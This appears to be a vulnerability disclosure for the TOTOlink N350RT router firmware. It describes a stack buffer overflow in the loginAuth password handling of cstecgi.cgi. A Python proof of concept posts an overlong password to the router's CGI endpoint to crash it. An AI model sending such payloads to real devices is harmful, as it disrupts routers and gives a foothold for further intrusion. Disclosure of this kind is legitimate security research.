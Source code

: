 # TOTOlink N350RT(V9.3.5u.6139_B20201216) router has buffer overflow vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/206/ids/36.html

**This product is on sale**: https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/206.html
## Affected Version
V9.3.5u.6139_B20201216
## Vulnerability Analysis
The following image displays the code for a stack overflow vulnerability in the `sub_421768` function of `cstecgi.cgi`, which is the handler of `loginAuth`. The value of `password` will be urldecoded then copied to `var_70` which is a local variable. Due to the lack of length validation by the developer on `password`, sending an overly long message by the attacker will eventually cause a stack overflow in the program.
![Vulnerability](./code.png)
![buffer](./buffer.png)
## POC
```python
import requests

def poc():
    payload = """{"username":"admin","password":"password":" """
    payload += "A"*200
    payload += """","verify":"0","flag":"0","topicurl":"loginAuth"}"""
    print(payload)
    requests.post('http://192.168.5.12/cgi-bin/cstecgi.cgi', data=payload)
poc()
```
A SIGSEGV is an error(signal) caused by an invalid memory reference.
![fault](bof.png)